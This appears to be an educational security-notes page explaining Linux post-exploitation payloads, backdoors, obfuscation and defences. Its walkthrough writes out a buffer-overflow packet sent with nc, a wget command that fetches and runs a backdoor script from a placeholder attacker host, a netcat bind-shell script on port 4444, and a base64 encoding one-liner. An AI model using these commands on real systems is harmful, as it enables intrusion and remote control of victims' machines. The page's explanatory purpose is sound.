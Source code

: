 # Payloads to execute


# 👉 Overview

---

### 👀 What ?

A Linux payload is a piece of malicious code that is executed after an initial breach into a system. This payload can perform a variety of tasks, from stealing data to creating backdoors for future access.


### 🧐 Why ?

Understanding Linux payloads is important for both hackers and security professionals. For hackers, payloads are the means to achieve their malicious objectives. For security professionals, understanding payloads can help in the timely detection and prevention of attacks.


### ⛏️ How ?

To use a Linux payload, an attacker first needs to exploit a vulnerability to breach the system. Following this, the payload can be loaded and executed. To defend against such attacks, professionals need to consistently monitor systems for vulnerabilities and keep them patched.


### ⏳ When ?

The use of Linux payloads in cybersecurity attacks has been prevalent for as long as Linux systems have been in use. Their popularity among attackers stems from the flexibility and power that Linux provides.


# ⚙️ Technical Explanations

---

A Linux payload is a type of malicious code that is executed after an initial breach into a Linux system. It is often a shell script or a binary executable that can carry out a range of tasks based on its programming. These tasks could include exfiltrating data, which is the unauthorized copying or transmission of data from within a system to an external destination or recipient. Data exfiltration can happen manually by someone with physical access to the computer or remotely by a hacker.

Another common use of a Linux payload is to establish a persistent backdoor, which is a method of bypassing normal authentication or encryption in a computer, a product, or an embedded device, etc., or to remotely access software, an operating system, or a device. Once a system is compromised (i.e., a 'backdoor' is established), hackers can use the vulnerability to leave hidden software — a 'backdoor Trojan' — behind.

Moreover, Linux payloads can also be used to launch further attacks on other systems. This could involve using the compromised system as a launchpad to attack other systems within the same network or to distribute malware across the internet.

In order to avoid detection by security systems, payloads are often obfuscated or encrypted. Obfuscation involves making the code difficult to understand or interpret, while encryption involves encoding the data such that only authorized parties can access it.

Defending against such payloads necessitates a multi-layered security approach. This includes regular patching, which involves updating and fixing the system software to protect against known vulnerabilities. Rigorous monitoring of the system is also necessary to detect any unusual activity that could indicate a breach. Finally, the use of intrusion detection systems (IDS) can help to identify suspicious activity by monitoring network traffic and system logs.

Here's a simplified example of how a Linux payload might work for educational purposes. This is not a real payload, and should not be used for malicious purposes. The steps below simulate the process of a payload that creates a backdoor on a Linux system.

1. **Exploit a vulnerability**: Suppose there's a known vulnerability in a specific version of a Linux server software that allows a buffer overflow to occur. An attacker might send a crafted packet that causes the server to crash and execute a shell command. This might look like:

```bash
echo -ne "\\x90\\x90\\x90\\x90...[payload]...\\x90\\x90\\x90\\x90" | nc target.com 80

```

(`\\x90` is a NOP instruction, and `[payload]` would be replaced with the actual payload)

1. **Load and execute the payload**: The payload in this case might be a simple shell command that downloads and runs a script from the attacker's server:

```bash
wget <http://attacker.com/backdoor.sh-O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh

```

This command downloads a script, makes it executable, and runs it.

1. **Create a backdoor**: The `backdoor.sh` script might look like this:

```bash
#!/bin/bash
nc -lvp 4444 -e /bin/bash &/dev/null &

```

This script starts a netcat listener on port 4444 and attaches a bash shell to it. This allows the attacker to connect to this port and execute commands.

1. **Hide the payload**: The attacker might use various obfuscation techniques to make the payload harder to spot. Obfuscation can be as simple as encoding the payload in Base64. Here's a Python one-liner that encodes the payload:

```python
echo 'payload' | python -c 'import sys; import base64; print(base64.b64encode(sys.stdin.read()))'

```

1. **Defend against the payload**: A system administrator might defend against such an attack by regularly updating the server software (to fix known vulnerabilities), monitoring network traffic (to spot suspicious connections), and using an intrusion detection system (to identify known attack patterns).
